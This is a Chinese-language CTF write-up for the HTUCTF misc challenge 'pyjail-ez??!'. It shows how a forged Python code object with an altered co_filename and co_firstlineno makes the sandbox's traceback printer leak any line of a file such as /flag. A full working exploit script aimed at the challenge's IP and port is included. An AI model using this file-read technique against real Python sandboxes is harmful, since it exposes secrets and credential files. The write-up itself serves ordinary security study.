

# pyjail-ez??! — HTUCTF Misc（864pt）Writeup

- 状态：**Accepted**
- Flag：`HTUCTF{11a5d2fe-19bc-4dfb-a9f6-de8be4fbadd3}`
- 实例：`103.163.47.230:35142`（原始 TCP，非常规 HTTP）
- 附件：`pyjail2.zip` → `jail.py`
- 环境要求：**Python 3.10**（容器是 3.10.20，`marshal` 格式必须同版本）

---

## 一、先看 jail.py 到底封了什么

```python
MAX_CODE = 1024
BANNED_OPS = {
    "IMPORT_NAME", "IMPORT_FROM", "IMPORT_STAR",
    "LOAD_NAME", "STORE_NAME", "DELETE_NAME",
    "LOAD_GLOBAL", "STORE_GLOBAL", "DELETE_GLOBAL",
    "LOAD_FAST", "STORE_FAST", "DELETE_FAST", "LOAD_CLOSURE",
    "LOAD_BUILD_CLASS", "LOAD_ASSERTION_ERROR", "LOAD_METHOD", "LOAD_ATTR",
    "MAKE_FUNCTION", "CALL_METHOD",
}

def check(co):
    if type(co) is not types.CodeType:                  reject("not a code object")
    if len(co.co_code) > MAX_CODE:                      reject("too large")
    if co.co_names:                                     reject("names are forbidden")
    if co.co_nlocals != 0 or co.co_varnames:             reject("locals are forbidden")
    if any(isinstance(c, types.CodeType) for c in co.co_consts):
        reject("nested code objects are forbidden")
    for ins in dis.get_instructions(co):
        if ins.opname in BANNED_OPS:
            reject("banned opcode: " + ins.opname)
```

它把「拿到活对象」这条路的每一块地砖都掀了：

| 禁掉的东西 | 原本能干什么 |
|---|---|
| `LOAD_NAME / LOAD_GLOBAL` | 查 `__builtins__`、查模块、查任何名字 |
| `LOAD_ATTR`、`co_names` 必须空 | 属性链逃逸（`().__class__.__bases__`）彻底作废 |
| `LOAD_FAST / LOAD_CLOSURE / co_nlocals==0` | 拿不到函数参数、闭包 cell |
| `IMPORT_NAME / IMPORT_FROM / IMPORT_STAR` | 不能 import |
| `MAKE_FUNCTION` + 禁嵌套 code object | 不能造函数、不能造新 code object |
| `CALL_METHOD` / `LOAD_METHOD` | 不能走方法调用 |
| `len(co_code) > 1024` | 不能塞长 gadget 链 |

再叠加 `eval(co, {"__builtins__": None})`：`__builtins__` 是 `None` 而不是 dict，连 `print`、`open` 都没有。

结论：**这题不靠逃逸，靠的是出题人自己的善后代码。**

---

## 二、突破口：`traceback.format_exc()` 会替我们 `open()`

```python
try:
    eval(co, {"__builtins__": None})
except BaseException:
    sys.stdout.write(traceback.format_exc())     # ← 关键
```

`traceback.format_exc()` 为了把「出错的那行源码」打印出来，内部链路是：

```
format_exc()
 └─ TracebackException.format()
     └─ StackSummary.extract(tb)
         └─ FrameSummary._format()          # 取 frame.f_lineno
             └─ linecache.getline(code.co_filename, lineno, frame.f_globals)
                 └─ linecache.updatecache()
                     └─ os.stat(fullname) + tokenize.open(fullname).readlines()
```

也就是说：**`co_filename` 当成路径、`co_firstlineno` 当成行号，去读一个文件的一行，然后把内容打到终端。**

而 `check()` 只检查 `co_code / co_names / co_nlocals / co_varnames / co_consts` 和指令白名单——**`co_filename` 和 `co_firstlineno` 它一眼都没看**。它们只是 code object 的普通字符串/整数字段，`compile()` 之后随时能改。

于是这就变成一条**任意文件任意行读取**：

1. `co_filename = "/flag"`
2. `co_firstlineno = 1`（想读第几行填几）
3. 代码体只写 `1/0` —— 编译出来只有 `LOAD_CONST 1`、`LOAD_CONST 0`、`BINARY_TRUE_DIVIDE`、`RETURN_VALUE`
4. `ZeroDivisionError` 一路冒到 `except BaseException`，`format_exc()` 把 `/flag` 第 1 行当作源码行打印出来

---

## 三、payload 构造（逐字段对照 check）

```python
import base64, marshal

co = compile("1/0", "<jail>", "exec")     # 触发 ZeroDivisionError
co = co.replace(co_filename="/flag",      # 目标文件（check 不检查）
                co_firstlineno=1)         # 目标行号（check 不检查）
payload = base64.b64encode(marshal.dumps(co)).decode()
```

| `check()` 检查项 | 本 payload 的实际值 | 结果 |
|---|---|---|
| `type(co) is CodeType` | 是 | 过 |
| `len(co.co_code) <= 1024` | 10 字节左右 | 过 |
| `co_names` 为空 | `()`（没有属性/全局访问） | 过 |
| `co_nlocals == 0`、`co_varnames` 空 | `0` / `()` | 过 |
| `co_consts` 无嵌套 code | `(1, 0, None)` | 过 |
| 指令不在 BANNED_OPS | 仅 `RESUME/LOAD_CONST/BINARY_TRUE_DIVIDE/RETURN_VALUE` | 过 |

顺带说明为什么**不需要**绕 BANNED_OPS：这些东西一个都没用到。

---

## 四、实测回显

```bash
$ MSYS2_ARG_CONV_EXCL='*' py310 exploit.py 103.163.47.230 35142 /flag
```



```
payload(base64 marshal) > Traceback (most recent call last):
  File "/app/jail.py", line 63, in main
    eval(co, {"__builtins__": None})
  File "/flag", line 1, in <module>
    HTUCTF{11a5d2fe-19bc-4dfb-a9f6-de8be4fbadd3}
ZeroDivisionError: division by zero
```

flag 就端端正正坐在「本该显示源码行」的位置上。对照第二发（`line 2`）：`/flag` 只有一行，所以第 2 行读不到、源码行位置为空——反过来证明 `co_firstlineno` 确实在控制读第几行，不是巧合。

> 提交页截图：``（本地补图）

---

## 五、完整 exp

```python
#!/usr/bin/env python3
# 必须用 Python 3.10 跑（容器 3.10.20）
import base64, marshal, socket, sys

assert sys.version_info[:2] == (3, 10), "must run under python 3.10"

HOST, PORT = "103.163.47.230", 35142

def read_line(path, lineno=1):
    co = compile("1/0", "<jail>", "exec").replace(
        co_filename=path, co_firstlineno=lineno)
    b64 = base64.b64encode(marshal.dumps(co)).decode()

    s = socket.create_connection((HOST, PORT), timeout=8)
    s.recv(4096)                       # 吃掉 "payload(base64 marshal) > "
    s.sendall(b64.encode() + b"\n")
    buf = b""
    while True:
        c = s.recv(8192)
        if not c:
            break
        buf += c
    s.close()
    return buf.decode("utf-8", "replace")

print(read_line("/flag", 1))
```

落地脚本见同目录 `exploit.py`（支持 `exploit.py <host> <port> <path...>`，内置 30+ 常见 flag 路径批量探测）与 `gen_payload.py`（只造 payload，便于本地自测）。

---

## 六、本地怎么复跑

```bash
cd "D:/桌面/htu/misc/pyjail-ez!"
PY310="/c/Users/ASUS/AppData/Roaming/uv/python/cpython-3.10.20-windows-x86_64-none/python.exe"

# 造一条读本地文件的 payload 并喂给 jail.py
"$PY310" gen_payload.py "D:/桌面/htu/misc/pyjail-ez!/_flag_demo.txt" 1 > _p1.txt
"$PY310" jail.py < _p1.txt

# 打远程
MSYS2_ARG_CONV_EXCL='*' "$PY310" exploit.py 103.163.47.230 35142 /flag
```

以上是 **bash / Git Bash** 语法。如果终端是 VS Code 默认的 **PowerShell**，全部换成下面这样（PowerShell 不认 `VAR=值` 前缀、不认 `<` 输入重定向）：

```powershell
cd "D:\桌面\htu\misc\pyjail-ez!"
$PY310 = "C:\Users\ASUS\AppData\Roaming\uv\python\cpython-3.10.20-windows-x86_64-none\python.exe"

# 打远程（PowerShell 不会篡改 /flag，也不需要 MSYS2_ARG_CONV_EXCL）
& $PY310 .\exploit.py 103.163.47.230 35142 /flag

# 本地自测（用管道，别用 < 重定向，也别用 > 存文件——PS 默认写 UTF-16）
& $PY310 .\gen_payload.py "D:\桌面\htu\misc\pyjail-ez!\_flag_demo.txt" 1 | & $PY310 .\jail.py
```

本地输出（证明链路与远程完全一致）：

```
payload(base64 marshal) > Traceback (most recent call last):
  File "...\jail.py", line 63, in main
    eval(co, {"__builtins__": None})
  File "D:/桌面/htu/misc/pyjail-ez!/_flag_demo.txt", line 1, in <module>
    HTUCTF{local-test-flag}
ZeroDivisionError: division by zero
```

---

## 七、踩坑清单（都是实际卡过的）

1. **`py -3.10` 在本机不可用**：`py -0` 明明列出了 `Astral/CPython3.10.20`，`py -3.10` 仍报 `No suitable Python runtime`。要用 uv 的完整路径，或 `py -V:Astral/CPython3.10.20`。
2. **Git Bash 篡改 `/flag`**：不加 `MSYS2_ARG_CONV_EXCL='*'`，Python 收到的是 `D:/workbuddy/resources/vendor/PortableGit/flag`，回显里 `hit=True` 但源码行是空的——最坑的假阳性。
3. **旧 `payload.txt` 段错误**：它是 3.9 的 marshal 头，喂给 3.10 的 `marshal.loads` 直接 `Segmentation fault`。`marshal` 不保证跨版本兼容，payload 必须在与目标同版本的解释器上生成。
4. **版本不符只报 `bad payload: ValueError`**：3.11+ 生成的 marshal 送到 3.10 容器是这种温和的报错，不会崩，但也不会有任何回显——容易误判成"payload 被 check 拦了"。

---

## 八、一句话总结

**pyjail 里的回显本身就是侧信道。** 出题人封死了「拿到活对象」的所有路，却留下了 `traceback.format_exc()` —— 它内部会执行 `linecache.getline(co_filename, lineno)`，而这两个值都是攻击者可控、且审计完全没覆盖的 code object 字段。于是「打印异常」这个善后逻辑，直接等价于 `open(co_filename).readlines()[lineno-1]`。
